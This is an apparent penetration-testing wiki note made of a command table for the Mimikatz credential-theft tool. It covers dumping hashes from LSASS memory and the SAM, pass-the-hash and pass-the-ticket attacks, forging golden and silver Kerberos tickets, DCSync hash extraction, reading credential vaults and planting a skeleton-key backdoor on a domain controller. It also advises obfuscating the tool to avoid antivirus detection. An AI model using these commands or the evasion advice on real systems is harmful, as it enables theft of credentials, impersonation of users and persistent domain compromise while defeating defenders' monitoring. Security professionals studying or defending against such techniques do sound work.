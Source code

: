 Mimikatz is a windows tool used to enumerate passwords and hashes from the Windows SAM, which can be acquired by Mimikatz or via a process dump by [[Procdump]] or in Task Manager. 

> [!danger] Detection Risk 
> Mimikatz is well signatured. This must be obfuscated or otherwise disguised before running, as with most tools. 

Mimikatz is run as an executable and prompts the user with a command line interface.

| Mimikatz Command                                                                                                                                                                                                               | Description                                                                                                                                                               |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `privilege::debug`                                                                                                                                                                                                             | Check for SeDebugPrivilege availability in current session                                                                                                                |
| `sekurlsa::msv`                                                                                                                                                                                                                | Pull password hashes from LSASS memory via injection.                                                                                                                     |
| `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`                                                                                                                                                                     | Perform a Pass-The-Hash attack to impersonate a new user                                                                                                                  |
| `sekurlsa::logonPasswords`                                                                                                                                                                                                     | Get passwords and hashes from a dump file                                                                                                                                 |
| `sekurlsa::minidump \<dumpfile\>`                                                                                                                                                                                              | Examine a specific .dmp file gnerated via procdump or TM                                                                                                                  |
| `sekurlsa::ekeys`                                                                                                                                                                                                              | List Kerberos encryption keys                                                                                                                                             |
| `sekurlsa::dpapi`                                                                                                                                                                                                              | List DPAPI master keys for browser-stored credentials and the Windows Credential Vault                                                                                    |
| `sekurlsa::tickets /export`                                                                                                                                                                                                    | Export Kerberos tickets in memory to files for PTT.                                                                                                                       |
| `kerberos::ptt <ticket>`                                                                                                                                                                                                       | Perform PTT attack and store a provided ticket in memory. (Verify with `klist` outside of mimikatz)                                                                       |
| `kerberos::golden /user:<your username> /domain:<domain> /sid:<SID> /krbtgt:<KRBTGT hash from lsa (golden only)> /service:<service name (silver only) /rc4:<Service NTLM hash (silver only)> /id:<500 (golden)/1103 (silver)>` | Create a golden or silver ticket with Mimikatz and add it to your mimikatz session.                                                                                       |
| `lsadump::sam`                                                                                                                                                                                                                 | Dump the SAM                                                                                                                                                              |
| `lsadump::dcsync /domain:contoso.local /user:adminisrtator@contoso.local`                                                                                                                                                      | Request a DC sync to acquire the NTLM (or RC4 decrypted) hash for the given user. Must be run in the context of a user with DCSync rights.                                |
| `lsadump::cache`                                                                                                                                                                                                               | Load cached credentials from the registry                                                                                                                                 |
| `lsadump::lsa /inject /name:krbtgt`                                                                                                                                                                                            | Dump the KRBTGT for creating Golden Tickets. Change `krbtgt` to a service account or DA to make a silver ticket.                                                          |
| `vault::list`                                                                                                                                                                                                                  | List the vaults on a system                                                                                                                                               |
| `vault:cred`                                                                                                                                                                                                                   | List credentials in a vault                                                                                                                                               |
| `misc::cmd`                                                                                                                                                                                                                    | Open an elevated command prompt with the privileges/tickets currently obtained.                                                                                           |
| `misc::skeleton`                                                                                                                                                                                                               | Inject a skeleton key backdoor into the forest's memory. From here, you may use the password 'mimikatz' with any user in the domain. Must be run on a domain controller.  |

See also: [[Pypykatz]]
